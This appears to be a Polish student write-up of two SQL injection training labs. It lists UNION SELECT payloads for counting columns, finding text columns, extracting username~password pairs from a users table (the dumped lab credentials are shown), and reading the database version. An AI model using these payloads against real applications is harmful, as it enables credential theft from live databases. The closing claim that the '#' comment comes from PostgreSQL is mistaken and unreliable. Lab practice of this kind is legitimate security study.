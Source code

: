 Laboratorium: Wstrzyknięcie SQL UNION attack, pobieranie wielu wartości w jednej kolumnie

Pierwszym krokiem było określenie liczy kolumn w przechwyconym pakiecie.
``` ' UNION SELECT NULL-- ```
I zwiększamy wartość NULL po przecinku NULL,NULL-- do momętu aż uzyskamy HTTP/2 200 OK 
Następnie jeśli już uskamy tą wartość, musimy dowiedzieć się, która z tych kolumn zawiera tekst, w tym przypadku była to druga kolumna, określiłem to za pomocą ``` ' UNION SELECT NULL,'abc'-- ```
W kolejnym kroku musimy utworzyć zapytanie wiemy, że baza danych zawiera tabelę users z kolumniami username,password. Oto zapytanie.
``` ' UNION SELECT NULL, username || '~' || password FROM users-- ```
Wartość NULL jest tutaj zapisana ponieważ wiemy, że pierwsza tabela nie zawiera tylko druga. dzięki temu zapytaniu uzyskałem zrzut całe bazy danych.
```
                            <th>wiener~xkhstq2rd73ukf1yddjo</th>
                        </tr>
                        <tr>
                            <th>administrator~2nwssjbzicownbljqt8w</th>
                        </tr>
                        <tr>
                            <th>carlos~qvjff1y3mqjqk784v7lc
```

Laboratorium: atak wtryskowy SQL, zapytanie o typ bazy danych i wersję w MySQL i Microsoft

Pierwszym krokiem było określenie liczby kolumn w przechwyconym pakiecie.
``` ' UNION SELECT NULL# ```
Musimy pamiętać, że w różnych bazach danych określa się komentarze zupełnie inaczej.
Poniżej znajduje się pare przykładów, jak komentować:

![obraz](https://github.com/Anogota/PortSwiggger-SQLi/assets/143951834/d6f2c43b-bec8-4207-847f-bf0e923befd8)

W tym przypadku były dwie kolumny.
``` ' UNION SELECT NULL,NULL# ```
Kolejnym krokiem było zidentyfikowane, która kolumna zawiera tekt, ponownie oby dwie zawierały tekst:
``` ' UNION SELECT 'qwe','qwe'# ```
Następnie jeśli już wiemy wszystko wystarczy odgadnąć która baza danych działa na serwerze. Udało mi się dowiedzieć za pomocą tego zapytania:
``` ' UNION SELECT @@version, NULL# ```
Odkryłem również, że działa to ``` ' UNION SELECT version(), NULL# ``` co wydawało mi się bardziej logiczne, ponieważ komentarz # pochodzi od PostgreSQL
